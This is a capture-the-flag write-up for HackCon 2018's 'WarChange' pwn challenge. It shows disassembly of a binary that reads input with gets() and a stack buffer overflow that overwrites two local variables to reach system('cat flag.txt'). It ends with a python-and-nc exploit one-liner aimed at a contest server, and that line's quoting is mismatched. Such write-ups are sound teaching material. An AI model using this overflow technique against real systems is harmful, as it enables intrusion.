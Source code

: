 ```yaml
---
layout: writeup
ctf: HackCon'18
challenge: "WarChange"
author: Ringr0p
date:   2018-08-17
categories: [pwn]
tags: [ ctf, challenge, programming, write-up ]
---
```

  - CTF NAME: [Hackcon 2018](https://hackcon.in/)
  - Category: PWN
  - Binary: [pwn2](http://ringr0p.github.io/binary/hackcon2018-vuln)
  - Difficulty: Easy

This challenge was the third challenge of the pwn category in the [Hackcon CTF 2018](https://hackcon.in/).

Let's open the binary:

```
Hola, So you again this time I am more secure. Lets see what u got

```

It request an input. And this input is managed with the vulnerable **gets()** function.
Using radare we can disassemble the main function:

```
|	    0x004006bc      488d45b0       lea rax, [local_50h]                                                                         
|           0x004006c0      4889c7         mov rdi, rax                                                                                 
|           0x004006c3      e888feffff     call sym.imp.gets           ;[3] ; char *gets(char *s)                                       
|           0x004006c8      488b05b10420.  mov rax, qword obj.stdin    ; [0x600b80:8]=0x7f7996732a00                                    
|           0x004006cf      4889c7         mov rdi, rax                                                                                 
|           0x004006d2      e889feffff     call sym.imp.fflush         ;[2] ; int fflush(FILE *stream)                                  
|           0x004006d7      817dfcefbead.  cmp dword [local_4h], 0xdeadbeef    ; [0xdeadbeef:4]=-1                                      
|       ,=< 0x004006de      740a           je 0x4006ea                 ;[4]                                                             
|       |   0x004006e0      bf01000000     mov edi, 1                                                                                   
|       |   0x004006e5      e886feffff     call sym.imp.exit           ;[5] ; void exit(int status)                                     
|       `-> 0x004006ea      817df8bebafe.  cmp dword [local_8h], 0xcafebabe    ; [0xcafebabe:4]=-1                                      
|       ,=< 0x004006f1      750f           jne 0x400702                ;[6]                                                             
|       |   0x004006f3      bfeb074000     mov edi, str.cat_flag.txt    ; 0x4007eb ; "cat flag.txt"                                     
|       |   0x004006f8      b800000000     mov eax, 0                                                                                   
|       |   0x004006fd      e82efeffff     call sym.imp.system         ;[7] ; int system(const char *string)                            
|       `-> 0x00400702      488b05670420.  mov rax, qword sym.stdout    ; loc.stdout ; [0x600b70:8]=0x7f7996733760 ; "`7s\x96y\x7f"     
|           0x00400709      4889c7         mov rdi, rax                                                                                 
|           0x0040070c      e84ffeffff     call sym.imp.fflush         ;[2] ; int fflush(FILE *stream)                                  
|           0x00400711      b800000000     mov eax, 0                                                                                   
|           0x00400716      c9             leave                                                                                        
\           0x00400717      c3             ret

```

Now the objective is clear: we have to conduct the flow of the program through the **system()** call. To do that, we have to overflow the local_50h buffer
and overwrite the two local variables at rbp-0x8 (local_8h) and at rbp-0x4 (local_4h) with, respectivly, 0xcafebabe and 0xdeadbeef (N.B in little endian ;) )

Then here is the exploit and the flag:

```code
python -c 'print ("a"*72 + '\xbe\xba\xfe\xca\xef\xbe\xad\xde")' | nc 139.59.30.165
```

![placeholder](/images/writeups/HackCon2018/warchange/flag.jpg)
